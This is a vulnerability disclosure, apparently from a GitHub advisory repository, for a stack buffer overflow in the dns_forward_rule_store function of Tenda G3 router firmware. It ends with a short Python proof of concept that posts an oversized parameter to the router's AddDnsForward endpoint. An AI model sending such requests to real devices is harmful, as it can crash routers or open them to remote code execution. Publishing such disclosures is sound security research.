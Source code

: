 # Tenda G3 dns_forward_rule_store
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the dns_forward_rule_store function.
### Vulnerability details
Stack-based buffer overflow in function dns_forward_rule_store on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function dns_forward_rule_store line 21, it reads in a user-provided parameter, and the variable rules is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/dns_forward_rule_store-1.png)
![](images/dns_forward_rule_store-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/AddDnsForward'
payload = {
    "dhcpIndex": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
